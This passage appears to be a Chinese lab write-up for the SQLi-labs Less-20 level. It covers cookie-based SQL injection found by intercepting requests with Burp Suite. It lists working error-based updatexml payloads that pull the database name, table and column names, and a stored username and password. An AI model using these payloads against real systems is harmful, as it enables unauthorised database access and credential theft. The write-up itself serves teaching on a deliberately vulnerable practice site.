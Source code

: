 发现可以注入



<img src="https://i-blog.csdnimg.cn/blog_migrate/93a2da4229c8339c4d6b216a333edffb.png" alt="" style="max-height:128px; box-sizing:content-box;" />




## Less-20  Cookie

首先我们打开网站

通过测试发现登入界面无法注入

从后端代码也可以发现存在 一个checkinput



<img src="https://i-blog.csdnimg.cn/blog_migrate/0ed4290e77514d410dcfc117a237b692.png" alt="" style="max-height:470px; box-sizing:content-box;" />


所以我们先尝试登入后 看看有没有存在注入



<img src="https://i-blog.csdnimg.cn/blog_migrate/875f867240bcc0fe728b6652d82df60c.png" alt="" style="max-height:452px; box-sizing:content-box;" />


我们要测试哪里可能存在语句

所以bp抓包看看

经过测试 发现是在cookie上存在与数据库交互

```vbnet
Cookie: uname='
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e9bc5417d488e566f642b52247f41cdc.png" alt="" style="max-height:157px; box-sizing:content-box;" />




我们看看能不能直接使用报错注入 因为 他语句后面就是 limit 0,1没有其他参数



```vbnet
Cookie: uname=' and updatexml(1,0x7e,3)-- +
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/1329c89d83256f10dbe923644e832201.png" alt="" style="max-height:106px; box-sizing:content-box;" />


发现存在

我们就直接开始爆破即可

```cobol
' or updatexml(1,concat(0x7e,(select database())),3)-- +

' or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database())),3)-- +
 
' or updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema=database())),3)-- +

' or updatexml(1,concat(0x7e,(select concat(username,password)from security.users limit 0,1)),3)-- +
```
